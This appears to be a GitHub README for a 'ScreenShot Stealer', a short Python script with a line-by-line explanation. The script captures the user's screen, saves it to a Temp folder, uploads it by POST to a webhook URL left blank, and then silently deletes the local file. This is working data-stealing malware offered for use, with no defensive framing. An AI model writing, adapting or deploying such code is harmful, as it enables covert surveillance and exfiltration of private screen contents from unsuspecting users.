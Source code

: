 ## ScreenShot Stealer

This Python script allows you to capture a screenshot of your computer screen and upload it to a specified URL using the Requests library. The captured screenshot is saved in a temporary folder and then uploaded using a POST request with the file attached.

## Code Example

```python
import os.path, requests, os
from PIL import ImageGrab

lizzard = os.path.expanduser("~")

verifiedWH = ""

otter = ImageGrab.grab()
otter.save(lizzard+"\\AppData\\Local\\Temp\\lizzardScreen.png")

file = {"file": open(lizzard+"\\AppData\\Local\\Temp\\lizzardScreen.png", "rb")}
r = requests.post(verifiedWH, files=file)
try:
    os.remove(lizzard+"\\AppData\\Local\\Temp\\lizzardScreen.png")
except:
    pass

```

## Explanation

1. os.path.expanduser("~"): This line of code retrieves the current user's home directory as a string.
2. verifiedWH = "": This variable should be replaced with the URL where the file will be uploaded.
3. otter = ImageGrab.grab(): This line captures a screenshot of the screen and saves it as a PIL Image object.
4. otter.save(lizzard+"\\AppData\\Local\\Temp\\lizzardScreen.png"): This line saves the PIL Image object as a PNG file in a temporary folder.
5. file = {"file": open(lizzard+"\\AppData\\Local\\Temp\\lizzardScreen.png", "rb")}: This line creates a dictionary with a key "file" and a value that is the opened PNG file in binary read mode.
6. r = requests.post(verifiedWH, files=file): This line sends a POST request to the URL specified in verifiedWH with the PNG file attached.
7. try: os.remove(lizzard+"\\AppData\\Local\\Temp\\lizzardScreen.png") except: pass: This line attempts to delete the temporary PNG file. If it is unable to do so, it continues without raising an error.
